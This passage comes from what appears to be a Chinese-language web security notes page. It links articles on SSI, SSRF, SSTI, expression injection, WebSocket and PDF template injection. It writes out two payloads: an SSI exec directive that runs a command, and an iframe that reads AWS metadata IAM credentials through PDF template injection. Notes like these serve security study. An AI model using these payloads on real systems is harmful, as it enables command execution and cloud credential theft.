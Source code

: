 **payload**

xxx.shtml
```shtml
<!--#exec cmd="id" -->
```

---

### SSRF

- [SSRF 笔记](./SSRF.md)

---

### SSTI

`服务器端模板注入`

- [SSTI 笔记](./SSTI.md)

---

### 表达式注入

**相关文章**
- [表达式注入](https://misakikata.github.io/2018/09/%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/)

**SpEL注入**
- [SpEL注入](../../语言安全/JAVA安全/SpEL注入.md)

---

### WebSocket安全

**相关文章**
- [利用WebSocket接口中转注入渗透实战](https://www.freebuf.com/articles/web/281451.html) - 通过脚本中转 websocket 让 sqlmap 可以注入

---

### 业务模板注入

`pdf 生成、html 模板生成的功能点`

`通常是配合 lfi、ssrf 进行利用`

**相关案例**
- [IKEA官网本地文件包含(LFI)漏洞分析](https://blog.51cto.com/u_15127538/2714257)
- pdf 模板注入 + aws metadata API
    ```
    <iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/"title="SSRF Test"></iframes>
    ```
    > form : https://twitter.com/intigriti/status/1487405174763278338

---